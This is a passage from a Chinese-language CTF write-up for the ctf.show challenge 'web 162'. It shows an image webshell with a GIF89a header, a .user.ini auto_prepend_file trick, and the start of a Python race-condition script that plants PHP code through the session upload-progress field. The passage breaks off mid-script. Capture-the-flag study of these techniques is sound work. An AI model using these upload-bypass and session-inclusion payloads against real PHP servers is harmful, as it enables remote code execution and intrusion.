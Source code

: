 ## web 162 session包含

可恶！竟然还是躲不掉。到了紧张刺激的session包含，我之前写过一篇[session包含](/pages/07a506/)

这题测试上一题的解法行不通了，应该是把.也过滤了，禁止通过拼接来绕过，那就试试session包含

图片马test.png，上传时bp把扩展名去掉
```php
GIF89a
<?=include"/tmp/sess_Cola"?>
```
![test](/medias/show-upload/18.png)

这个烧题，不带扩展名的文件也可以上传(恼)，带GIF89a头过getimagesize函数，那玩法就多了

```ini
GIF89a
auto_prepend_file=test
```

把.user.ini传上去

![ini](/medias/show-upload/17.png)

准备条件竞争脚本
```python
import requests
import threading
import time

# 如果题目链接是https，换成http
# url = 'https://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
url = 'http://c451c8da-a286-4835-a23a-bd6cd7e91f5a.challenge.ctf.show/upload/'
sessionid = 'Cola'
data = {
    # session文件内容
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php file_put_contents("shell.php","<?php phpinfo();?>");?>',
    # session文件路径可能不同
}

file = {
    'file': sessionid
}

cookies = {
```